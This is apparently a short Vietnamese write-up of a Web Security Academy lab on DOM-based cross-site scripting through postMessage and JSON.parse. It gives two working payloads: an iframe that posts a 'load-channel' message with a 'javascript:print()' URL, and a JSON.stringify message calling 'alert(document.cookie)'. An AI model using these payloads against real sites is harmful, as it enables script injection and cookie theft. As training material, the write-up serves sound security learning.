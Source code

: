 **Yêu cầu: Sử dụng message dạng JSON, tạo 1 page HTML trên máy chủ exploit để gọi được hàm print()/alert()**
<br> Trong source code, đoạn try sử dụng hàm JSON.parse để xác minh input, nếu không hợp lệ sẽ catch return, nếu hợp lệ chạy code ở switch case
![image](https://user-images.githubusercontent.com/62832067/150762156-e3ec3fcd-3972-4de0-a087-b7fb5de2f58e.png)
<br> JSon.parse() trả về mô tả của 1 string, có thể hiểu là trả về "value" của 1 "key", ví dụ như bên dưới ta có string/key **"result"** với mô tả/value là **true**
![image](https://user-images.githubusercontent.com/62832067/150766486-4ec28404-5c47-4369-92b7-c8ea340eae92.png)
<br> Vì thế ta có 2 cách để truyền payload ở bài này:
<br> Cách 1: Sử dụng thẻ iframe và truyền message dạng JSON: ```"<iframe src=https://ace71ff51f8330a2c052863500b400b1.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>```
<br> <br> Cách 2: Sử dụng hàm JSON.stringify để truyền vào input đúng yêu cầu với hàm JSON.parse như bên trên, rồi sau đó khi switch tới case ```load-channel``` thì sẽ gọi tới hàm alert(): 
<br>```JSON.stringify({type: 'load-channel', url: 'javascript:alert(document.cookie)'})``` 



